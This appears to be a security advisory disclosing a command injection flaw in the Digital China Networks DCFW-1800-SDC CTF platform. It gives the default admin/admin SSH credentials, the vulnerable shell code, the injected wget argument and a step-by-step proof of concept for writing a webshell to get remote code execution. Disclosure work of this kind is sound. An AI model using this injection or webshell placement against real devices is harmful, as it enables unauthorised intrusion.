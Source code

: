 # Information

**Affected product:** DCFW-1800-SDC

**Vendor of the product:** Digital China Networks

**Product page:** https://www.dcnetworks.com.cn/goods/61.html

**Product catalogs:** https://www.dcnetworks.com.cn/Uploads/keditor/file/20220320/DCFW-1800-SDC%E4%BF%A1%E6%81%AF%E5%AE%89%E5%85%A8%E6%94%BB%E9%98%B2%E7%AB%9E%E6%8A%80%E5%B9%B3%E5%8F%B0%E5%88%9D%E5%A7%8B%E5%8C%96%E6%89%8B%E5%86%8C-201709.pdf

**Affected system version:** 3.0

**Reported by:**  Wentao Yang (pushe4x@gmail.com)



# Description

A command injection vulnerability has been identified in the DCFW-1800-SDC CTF platform. This vulnerability allows authenticated attacker to manipulate parameters within the wget command and upload arbitrary files to the remote systems. 

# Vulnerability details

The Digital China Networks DCFW-1800-SDC is a CTF (Capture The Flag) platform.

It provides a management interface via SSH with default credentials of username `admin` and password `admin`.Upon user login via SSH, the script `/sbin/cloudadmin.sh` is executed to present the management menu.

![image-20230826152855923](https://raw.githubusercontent.com/Push3AX/vul/main/pic/image-20230826152855923.png)

In command 9 (Update System or Lesson), the update_system() function in cloudadmin.sh invoked. Prompts the user to input IP address and filename for downloading the firmware file package.

![image-20230826153135341](https://raw.githubusercontent.com/Push3AX/vul/main/pic/image-20230826153135341.png)

The code of update_system() function is shown below:

```bash
update_system()
{
        #check link
        read -p "Please enter update web server IP Address :(192.168.1.100)" SERVERIP
        read -p "Please enter update Filename " FILENAME
	if [ X${SERVERIP} ] ;then
		SERVERIP="192.168.1.100" ;
	fi
        checklink=`ping ${SERVERIP} -c 1 | grep ttl -c `
        if [ x${checklink} = x1 ] ;then
                TEMP="/tmp/mnt/src"

                if [ ! -d ${TEMP} ] ; then
                         mkdir -p ${TEMP}
                fi

                read -p " Do you update system ? (y/n) " xxx
                if [ x$xxx != x ] ; then
                	cd ${TEMP} ; wget http://${SERVERIP}/${FILENAME} ;
	                line=`ls ${TEMP}/*.lib | grep -c ".lib" `
       		         if [ x$line = x0 ] ; then
       	        	         echo "Update failed ! "
               		 else
	                       	 cd ${TEMP} ; tar -zxf ${FILENAME} ; cd update ; sh update.sh ; sync
       	                	 echo "Update Successful ! "
        	        fi
                fi
```

This function will verifies the availability of the IP address. If is not, a hardcoded IP address will be used instead. Nonetheless, due to a logical flaw, the condition `[ X${SERVERIP} ]` always evaluates to true. (The correct format should be `[ X${SERVERIP} = X]`). This results in `${SERVERIP}` consistently equating to `192.168.1.100`.

To solve this issue, an attacker could input a malformed IP address,  leading to incorrect execution of the if statement and bypassing the 'then' clause. The following example illustrates this:

```bash
#if.sh for example
read -p "Please enter update web server IP Address :(192.168.1.100)" SERVERIP
if [ X${SERVERIP} ] ;then
	SERVERIP="192.168.1.100" ;
fi
echo SERVERIP=${SERVERIP}
```

![image-20230913171000110](https://raw.githubusercontent.com/Push3AX/vul/main/pic/image-20230913171000110.png)

In this scenario, appending `-O` to the IP not only bypasses the 'if' statement but also:

1. -O is a legitimate parameter of the ping command.
2. -O serves as a parameter for the wget command to specify the output path, thereby granting the attacker to write to any file.

Upon entering the IP address `192.168.1.1 -O` , input the filename parameter with `tmp/www/lms/1.php`. The update_system() function concatenates the IP address and filename as follows: 

`cd ${TEMP} ; wget http://${SERVERIP}/${FILENAME} ;`

Attacker ultimately execute this command: 

`wget http://192.168.1.1/ -O /tmp/www/lms/1.php`

By downloading a webshell payload into the web directory, an attacker can achieve remote code execution.

# POC:

1. Stage a file on server as default page. (Ensuring it is displayed upon accessing the root directory, e.g. http://192.168.1.1/index.php)

2. Using the default credentials, authenticate into the DCFW-1800-SDC's management interface.

![image-20230826152855923](https://raw.githubusercontent.com/Push3AX/vul/main/pic/image-20230826152855923.png)

3. Select menu option 9 "Update System or Lesson".

4. Input `192.168.1.1 -O `as the IP address and `tmp/www/lms/1.php` as the filename.

![image-20230826160237360](https://raw.githubusercontent.com/Push3AX/vul/main/pic/image-20230826160237360.png)

5. Access the uploaded file at `/lms/1.php` on the server.

![image-20230826153345811](https://raw.githubusercontent.com/Push3AX/vul/main/pic/image-20230826153345811.png)
